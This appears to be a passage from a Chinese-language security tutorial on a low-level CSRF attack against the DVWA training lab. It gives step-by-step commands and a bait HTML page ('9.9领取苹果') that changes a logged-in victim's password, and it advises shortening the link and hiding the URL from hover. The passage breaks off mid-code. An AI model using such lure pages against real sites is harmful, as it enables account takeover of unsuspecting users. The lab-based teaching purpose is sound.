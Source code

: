 ```shell
要求用户输入原密码
用户输入新的密码时，要求输入验证码
```

### 1.4.2 转账/投票时

```shell

```

# 2.DVWA靶场中的low级别的CSRF攻击

## 2.1 攻击过程

```shell
1.打开dvwa靶场

2.设置DVWA Security 的 security level 级别为 low

3.选择CSRF

4.输入密码：123456 并重复

5.获取修改密码的链接
http://10.102.224.206:9093/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change

6.在kali中启动apache
service apache2 start

7.进入kali的/var/www/html目录，编辑一个文件
vi csrf_low.html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>9.9领取苹果</title>
</head>
<body>
    <a href="http://10.102.224.206:9093/vulnerabilities/csrf/?password_new=123&password_conf=123&Change=Change">
        9.9领取苹果
    </a>
</body>
</html>
测试是否能访问成功 http://10.102.224.103/csrf_low.html

8.在win10浏览器重新登录DVWA(此时密码是123456)

9.在该浏览器中打开页面
http://10.102.224.103/csrf_low.html (这个链接要生成短链接)
点击超链接“9.9领取苹果”，此时跳转到到DVWA的密码修改成功页面

10.在win10浏览器重新登录DVWA，此时密码改为了123

#注意：
第7步要替换成更隐蔽的方式，因为当鼠标hover上去的时候，会露馅。
vi csrf_low_hidden.html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
```